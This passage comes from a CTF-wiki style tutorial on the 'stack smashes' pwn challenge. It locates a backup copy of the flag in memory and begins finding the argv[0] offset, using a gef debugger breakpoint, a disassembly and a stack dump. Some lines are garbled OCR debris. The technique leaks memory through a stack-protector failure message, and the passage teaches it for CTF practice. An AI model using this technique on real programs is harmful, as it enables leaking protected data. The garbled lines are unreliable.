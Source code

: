 

It can be seen that the 2222 we read has covered the flag at 0x600d20, but we still find the backup of this flag at 0x400d20 in memory, so we can still output it. Here we have determined the address of the flag.


#### Determining the offset


Next, we determine the offset of the string read by argv[0].


First break the breakpoint at the main function entry, as follows


```asm
gef➤  b *0x00000000004006D0

Breakpoint 1 at 0x4006d0

gef➤  r

Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 



Breakpoint 1, 0x00000000004006d0 in ?? ()

 code:i386:x86-64 ]────

     0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>

     0x4006c6 <_IO_gets@plt+6> push   0x9

     0x4006cb <_IO_gets@plt+11> jmp    0x400620

 →   0x4006d0                  sub    rsp, 0x8

0x4006d4 mov rdi, QWORD PTR [rip + 0x200665] # 0x600d40 <stdout>
0x4006db xi, oh
     0x4006dd                  call   0x400660 <setbuf@plt>

──────────────────────────────────────────────────────────────────[ stack ]────

['0x7fffffffdb78', 'l8']

8

0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax	 ← $rsp

0x00007fffffffdb80│+0x08: 0x0000000000000000

0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"

0x00007fffffffdb90│+0x18: 0x0000000100000000

0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8

0x00007fffffffdba0│+0x28: 0x0000000000000000

0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3

0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp

──────────────────────────────────────────────────────────────[ trace ]────

```